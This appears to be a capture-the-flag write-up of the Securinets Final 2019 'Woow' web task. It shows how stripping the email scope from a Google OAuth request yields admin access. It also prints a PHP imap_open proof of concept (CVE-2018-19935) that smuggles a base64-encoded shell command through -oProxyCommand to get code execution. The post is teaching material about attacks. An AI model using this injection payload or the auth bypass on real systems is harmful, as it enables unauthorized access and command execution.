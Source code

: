 ```yaml
---
layout: post
title: Woow
category: Securinets Final 2019
---
```


Hello guys, This weekend we played Final Securinets and enjoyed almost all categories of challenges, especially web tasks.

So let me explain this task, it was like a real scenario process where we are going to chain bugs to get access to the final server application

First we have a link for the application

```
http://3.89.110.195.xip.io/
```

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56182156-b984be00-6008-11e9-9713-bf6b145aafd6.png"></p>

Here we have a simple login with another option Google authentication using email account

Since we have no idea how the login process works, we will try to use Google Email here.

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56182877-0b7b1300-600c-11e9-8c15-3103735fe375.png"></p>

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56182365-b63e0200-6009-11e9-89fe-528412a77a05.png"></p>

Ok here we can confirm that the process works as expected, we can confirm it by checking the javascript code too.

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56182415-02894200-600a-11e9-9044-8b38e864d8cc.png"></p>

So I tried to change the name of my profile and email to contain "admin". The process may be weak and only check if the email or profile contains "admin".

After a few checks, I have not managed to work around this problem.

We only have one way to do it now, bypassing Google authentication.

If we check again the javascript code used here, we can notice that the application uses two Google APIs to collect information about the user, including "email".

```
https://www.googleapis.com/auth/plus.login
https://www.googleapis.com/auth/userinfo.email
```
What happens if we remove these two scopes from the API call, which can cause the application to get NULL data, with a weak back-end code, it can work: D

After intercepting the Google query in the login process, we can see both scopes already present!

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56182741-6829fe00-600b-11e9-975a-5f462f706a0a.png"></p>

```
/o/oauth2/auth?redirect_uri=storagerelay%3A%2F%2Fhttp%2F3.89.110.195.xip.io%3Fid%3Dauth874762&
response_type=code%20permission%20id_token
&scope=https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fplus.login%20https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email
&openid.realm=&client_id=870207410208-5sga4in88a4ruf0k28ea59k4vhq1dpkq.apps.googleusercontent.com
&ss_domain=http%3A%2F%2F3.89.110.195.xip.io&access_type=offline&include_granted_scopes=true
&prompt=consent&origin=http%3A%2F%2F3.89.110.195.xip.io&gsiwebsdk=2
```

What if we can simply remove scope parameter. There’s no check in the URL to prevent us from making modifications

But removing the Google authentication scope will give us an error!

```
Missing required parameter: scope
```

And what about removing only the email scope as it is probably an email check to give admin access ?! 

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56183138-036fa300-600d-11e9-99d5-cf0f2c357b04.png"></p>

And yes, we get admin access :), our plan was right and we manage to bypass the Google authentication used in this application.

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56183636-3155e700-600f-11e9-8365-496e5cf19277.png"></p>

So here we have access to a private page that already gives us some private data, in this case a link to a private internal tool, in Bug bounty, it will be really useful and it can load to take control of the server APP.

`http://3.89.110.195.xip.io/i7MbGnu2fi/?rec=XU6UIbwjqFucPPtnTBrF`

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56183733-98739b80-600f-11e9-87e6-fe618d0518f2.png"></p>

So here we have Email sender tool. First, I said that he may be using a public tool and I was trying to check code in github and look for something there, but he just used the same design, but not the same code.

Basically, the tool can be used to send emails after configuring our imap server! but there was a bug on imap_open in PHP ?!

Let's check php version 

by checking page header 

`X-Powered-By: PHP/5.6.38`

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56183909-32d3df00-6010-11e9-8245-ccfa3a5c8157.png"></p>

We confirm here that this application is vulnerable to the latest bug on imap [CVE-2018-19935](https://www.cvedetails.com/cve/CVE-2018-19935/)

By using this bug, we can do code execution on OS. Here is an example from the Github repository.

```
<?php
# CRLF (c)
# echo '1234567890'>/tmp/test0001
$server = "x -oProxyCommand=echo\tZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64\t-d|sh}";
imap_open('{'.$server.':143/imap}INBOX', '', '') or die("\n\nError: ".imap_last_error());
```

After a few attempts, this did not works on this application , and as iam using php7, I just created a Docker container and set up a simple vulnerable application to debug

And finally, working on my side after fixing my payloads , create file in tmp folder

`
"echo '1234567890'>/tmp/worked"
`

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56184174-1e441680-6011-11e9-90a4-fa9aef385caf.png"></p>

Then we need to create payload to get the flag.php file located in /var/www/html/flag.php probably

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56184326-8f83c980-6011-11e9-954f-71bb83a22508.png"></p>

And yes , done :D 

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56184462-ff924f80-6011-11e9-852d-9dd3f12c62e7.png"></p>

```
$flag="securinets{flaaaaaaaaaaaaaaagGg_wooooow}"; // 700 pts
```

This type of bug can be everywhere if the code application miss some check, in pentest world, hunters can get almost everything

Leakage of files and secret data

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56184814-5d736700-6013-11e9-8896-a034fdcf3290.png"></p>

Or just running commands !

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56184844-83007080-6013-11e9-846b-b01bb3475f39.png"></p>

And finally, let's analyze the root cause in this case

If we check the source code, we can confirm that there was a bad check !

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/56184952-e4c0da80-6013-11e9-8159-f784495b204b.png"></p>


Thanks dali for such a task :D , well done :)

Thank you for reading this write up!
